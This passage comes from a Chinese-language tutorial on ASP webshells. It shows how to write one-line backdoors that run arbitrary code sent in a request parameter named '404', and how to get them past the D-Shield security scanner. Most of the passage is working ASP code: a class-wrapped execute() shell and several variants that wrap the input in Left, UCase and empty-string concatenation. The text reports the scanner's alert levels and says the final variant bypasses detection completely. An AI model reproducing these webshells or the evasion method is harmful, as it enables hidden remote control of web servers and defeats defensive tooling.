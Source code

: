 前面说过他提示的参数没 赋值 那么我们就定义一个局部变量来赋值吧

```
<%
Class LandGrey

private str
    Private Sub Class_Initialize
    str = ""
    End Sub
    public property let setauthor(str)
    execute(str)
    end property

End Class

Set a= New LandGrey
a.setauthor= request("404")
%>

```



# 0x08 字符串操作

前面php的webshell我们讲过，d盾是杀参数的，我们如何绕过的思路就是在传入参数这里做文章，先来一个简单的

```
<%
a = request("404")
b = Left(a,99999)
execute(b)
%>

```

D盾直接爆4级，我们再找个函数包裹一下我们的a字符串,UCase大小写转换

```
<%
a = request("404")
b = Left(UCase(a),99999)
execute(b)
%>

```

还是4级，那么我们在后面连接一个空格呢,那么他就能完美绕过

```
<%
a = request("404")
b = Left(UCase(a)&"",99999)
execute(b)
%>

```


# 0x09 总结

虽然asp不是很灵活，但是通过探索还是能发现不少姿势，还是那句话多学多练，我们一起从0开始